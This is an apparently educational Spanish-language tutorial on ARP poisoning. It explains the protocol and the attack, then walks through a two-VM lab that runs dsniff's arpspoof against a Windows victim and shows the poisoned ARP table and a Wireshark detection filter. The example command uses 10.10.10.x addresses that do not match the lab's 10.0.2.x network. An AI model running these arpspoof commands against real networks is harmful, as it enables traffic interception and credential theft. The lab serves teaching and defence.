 El ARP Poisoning, también conocido como ARP Spoofing, es un tipo de ataque en redes de computadoras que se lleva a cabo en la capa de enlace de datos (capa 2 del modelo OSI). Este ataque explota el protocolo ARP (Address Resolution Protocol), que es utilizado en redes IPv4 para mapear direcciones IP a direcciones MAC de hardware. A continuación, te explico en detalle cómo funciona este ataque y sus implicaciones:

Funcionamiento del Protocolo ARP
- ARP en Redes Normales: Cuando un dispositivo en una red local quiere comunicarse con otro dispositivo, necesita conocer su dirección MAC. Si solo conoce la dirección IP, utiliza ARP para resolver la dirección MAC. Envía una solicitud ARP a todos los dispositivos en la red (broadcast) preguntando "¿Quién tiene esta dirección IP? Envíame tu dirección MAC".
- Respuesta ARP: El dispositivo con la dirección IP solicitada responde con su dirección MAC, y la comunicación puede comenzar.

Mecánica del ARP Poisoning
- Envío de Respuestas ARP Falsificadas: En un ataque de ARP Poisoning, el atacante envía respuestas ARP no solicitadas a la víctima, a la puerta de enlace de la red, o a ambos. Estas respuestas contienen la dirección MAC del atacante en lugar de la dirección MAC real correspondiente a la dirección IP solicitada.
- Modificación de la Tabla ARP: Como resultado, la víctima y/o la puerta de enlace actualizan sus tablas ARP con la información falsa, asociando la dirección IP del dispositivo objetivo (por ejemplo, la puerta de enlace) con la dirección MAC del atacante.
- Intercepción del Tráfico: Con las tablas ARP modificadas, el tráfico que se supone debe ir al dispositivo objetivo es enviado al atacante. Esto permite al atacante interceptar, leer o modificar los datos antes de reenviarlos al destinatario original, si así lo decide.

Objetivos y Consecuencias
- Man-In-The-Middle (MITM): El atacante se coloca entre dos partes que creen estar comunicándose directamente entre sí. Puede espiar o alterar la comunicación.
- Denegación de Servicio (DoS): Si el atacante no reenvía los paquetes interceptados, puede interrumpir la comunicación, resultando en un ataque de DoS.
- Suplantación de Identidad y Ataques a la Privacidad: El atacante puede obtener acceso no autorizado a datos confidenciales, como credenciales de inicio de sesión y otra información personal.

-----------------------------------------
### El Protocolo ARP
El Protocolo ARP (Address Resolution Protocol) es un protocolo de red que se utiliza para traducir direcciones de nivel de red (como direcciones IP) en direcciones físicas de nivel de enlace (como direcciones MAC). Cuando un dispositivo necesita enviar datos a otro dispositivo en una red, utiliza la dirección IP del dispositivo de destino para localizarlo. Sin embargo, la dirección IP no es suficiente para enviar los datos directamente al dispositivo de destino, ya que se necesita la dirección física de nivel de enlace para poder enviar los datos a través de la red. Es aquí donde entra en juego el Protocolo ARP. Cuando un dispositivo necesita la dirección física de nivel de enlace de otro dispositivo en la misma red, utiliza el Protocolo ARP para enviar una solicitud de "Quién es" ("Who is") que contiene la dirección IP del dispositivo de destino. El dispositivo que tiene la dirección IP solicitada responde con un mensaje que contiene su dirección física de nivel de enlace. De esta manera, el dispositivo que inició la solicitud ARP puede obtener la dirección física de nivel de enlace del dispositivo de destino y enviar los datos a través de la red.

-------------------------------------------
### ¿ARP Spoofing es igual que ARP poisoning?
Sí, "ARP Spoofing" y "ARP Poisoning" se refieren básicamente al mismo tipo de ataque en el contexto de la seguridad de redes informáticas. Ambos términos describen un proceso en el que un atacante envía mensajes ARP (Address Resolution Protocol) falsificados en una red local (LAN). El objetivo de este ataque es asociar la dirección MAC (Media Access Control) del atacante con la dirección IP de otro host, como la puerta de enlace predeterminada (router) o un servidor específico, lo que permite al atacante interceptar o modificar el tráfico de red destinado a ese host.

A pesar de que los términos se usan indistintamente, pueden enfocarse ligeramente en diferentes aspectos del ataque:
- ARP Spoofing tiende a enfocarse en el acto de enviar mensajes ARP falsificados para engañar a los dispositivos en la red. Es decir, "spoofing" (suplantación) se refiere a la falsificación de la identidad de un dispositivo.
- ARP Poisoning se centra más en el resultado del ataque: "envenenar" las tablas ARP de otros dispositivos en la red con direcciones MAC incorrectas.

----------------------------------------
### El ARP Spoofing (Suplantación ARP)
El ARP Spoofing (Suplantación ARP) es una técnica de ataque informático en la que un atacante envía mensajes ARP falsos en una red local para asociar su propia dirección MAC con la dirección IP de otro dispositivo legítimo en la misma red. En una red local, cada dispositivo tiene una dirección IP única y una dirección MAC única. La dirección IP se utiliza para enrutar el tráfico de red a través de la red, mientras que la dirección MAC se utiliza para enrutar el tráfico dentro de la red local. El Protocolo ARP se utiliza para asociar las direcciones IP con las direcciones MAC en la red. En un ataque ARP Spoofing, un atacante envía mensajes ARP falsos a otros dispositivos en la red, informando de que la dirección IP del dispositivo legítimo apunta a la dirección MAC del atacante en lugar de su propia dirección MAC. Esto puede hacer que otros dispositivos de la red envíen tráfico al atacante en lugar del dispositivo legítimo, lo que permite al atacante interceptar, modificar o redirigir el tráfico de red.

Se trata de la construcción de tramas de solicitud y respuesta ARP modificadas con el objetivo de envenenar la tabla ARP (relación de las direcciones IP-MAC) de una víctima y forzarla a que envíe los paquetes a un equipo atacante, en lugar de hacerlo a su destino legítimo.

El protocolo Ethernet trabaja mediante direcciones MAC, no mediante direcciones IP. Cuando un host quiere comunicarse con una IP emite una trama ARP-Request a la dirección de Broadcast, pidiendo la MAC del host poseedor la IP con la que quiere comunicarse. El ordenador con la IP solicitada responde con un ARP-Reply indicando su MAC. Los Switches y los ordenadores guardan una tabla local con la relación direcciones IP-MAC llamada "tabla ARP". Dicha tabla ARP puede ser falseada por un computador atacante que emita tramas ARP-REPLY indicando su MAC como destino válido para una IP específica, como por ejemplo la de un router, de esta manera la información dirigida al router pasaría por el computador atacante quien podrá escuchar dicha información y redirigirla, si así lo desea.

El protocolo ARP trabaja a nivel de la capa de enlace de datos del modelo OSI, por lo que esta técnica sólo puede ser utilizada en el segmento de red o vlan.


----------------------------------------
Este laboratorio necesita una red nat que compartirán las máquinas virtuales.


Este laboratorio cuenta con dos máquina virtuales:
- Windows 10 con configuración de la red: red nat. IP 10.0.2.15 - MAC: 08-00-27-8A-47-EB
- Ubuntu 23.10 con configuración de la red: red nat. IP: 10.0.2.4 - MAC: 08:00:27:ab:bd:f3

Comprobamos que la máquina virtual linux vea a la windows:
```
ping 10.0.2.15
PING 10.0.2.15 (10.0.2.15) 56(84) bytes of data.
64 bytes from 10.0.2.15: icmp_seq=1 ttl=128 time=0.942 ms
64 bytes from 10.0.2.15: icmp_seq=2 ttl=128 time=0.509 ms
64 bytes from 10.0.2.15: icmp_seq=3 ttl=128 time=0.995 ms
^C
--- 10.0.2.15 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2043ms
rtt min/avg/max/mdev = 0.509/0.815/0.995/0.217 ms
```


Comprobamos que la máquina virtual windows vea a la Linux:
```
C:\Windows\system32>ping 10.0.2.4
Haciendo ping a 10.0.2.4 con 32 bytes de datos:
Respuesta desde 10.0.2.4: bytes=32 tiempo<1m TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64

Estadísticas de ping para 10.0.2.4:
    Paquetes: enviados = 4, recibidos = 4, perdidos = 0
    (0% perdidos),
Tiempos aproximados de ida y vuelta en milisegundos:
    Mínimo = 0ms, Máximo = 1ms, Media = 0ms
```

En la máquina Windows:
- No hace falta desactivar el antivirus de Windows. Funciona igualmente.
- Abrimor Wireshark  para snifar el tráfico.
- Comprobamos en la máquina windows la tabla de arp que tiene:
  ```
  arp -a
  Interfaz: 10.0.2.15 --- 0x4
  Dirección de Internet          Dirección física      Tipo
  10.0.2.1              52-54-00-12-35-00     dinámico
  10.0.2.255            ff-ff-ff-ff-ff-ff     estático
  224.0.0.22            01-00-5e-00-00-16     estático
  224.0.0.251           01-00-5e-00-00-fb     estático
  224.0.0.252           01-00-5e-00-00-fc     estático
  239.255.255.250       01-00-5e-7f-ff-fa     estático
  255.255.255.255       ff-ff-ff-ff-ff-ff     estático
  ```



En la máquina Linux instalamos dsniff y lanzamos el ataque unos segundos:
```
sudo apt-get install dsniff
sudo apt install nmap
sudo nmap --iflist
[sudo] contraseña para usuario: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 20:29 CET
************************INTERFACES************************
DEV     (SHORT)   IP/MASK       TYPE     UP MTU   MAC
lo      (lo)      127.0.0.1/8   loopback up 65536
lo      (lo)      ::1/128       loopback up 65536
enp0s3  (enp0s3)  10.0.2.4/24   ethernet up 1500  08:00:27:AB:BD:F3
docker0 (docker0) 172.17.0.1/16 ethernet up 1500  02:42:1B:03:99:67

**************************ROUTES**************************
DST/MASK       DEV     METRIC GATEWAY
10.0.2.0/24    enp0s3  100
172.17.0.0/16  docker0 0
169.254.0.0/16 enp0s3  1000
0.0.0.0/0      enp0s3  100    10.0.2.1
::1/128        lo      0
::1/128        lo      256
sudo arpspoof -i [interfazAtancante] -t [ipVíctima] [ipPuertaEnlace]
sudo arpspoof -i enp0s3 -t 10.10.10.15 10.10.10.1
```
![](capturas/arp-spoof.png)


Volvemos a mostar la tabla arp que contiene la máquina windows y observamos que ya se ha ejecutado el ataque:
```
C:\Windows\system32>arp -a
Interfaz: 10.0.2.15 --- 0x4
  Dirección de Internet          Dirección física      Tipo
  10.0.2.1              08-00-27-ab-bd-f3     dinámico
  10.0.2.3              08-00-27-3d-9b-e2     dinámico
  10.0.2.4              08-00-27-ab-bd-f3     dinámico
  10.0.2.255            ff-ff-ff-ff-ff-ff     estático
  224.0.0.22            01-00-5e-00-00-16     estático
  224.0.0.251           01-00-5e-00-00-fb     estático
  224.0.0.252           01-00-5e-00-00-fc     estático
  239.255.255.250       01-00-5e-7f-ff-fa     estático
  255.255.255.255       ff-ff-ff-ff-ff-ff     estático
```

En el tŕafico que se ha capturado durante el ataque, realizamos un filtro para mostrar si existió un ataque ARP spoof:
```
arp.duplicate-address-detected
```
![](capturas/arp-spoof-2.png)
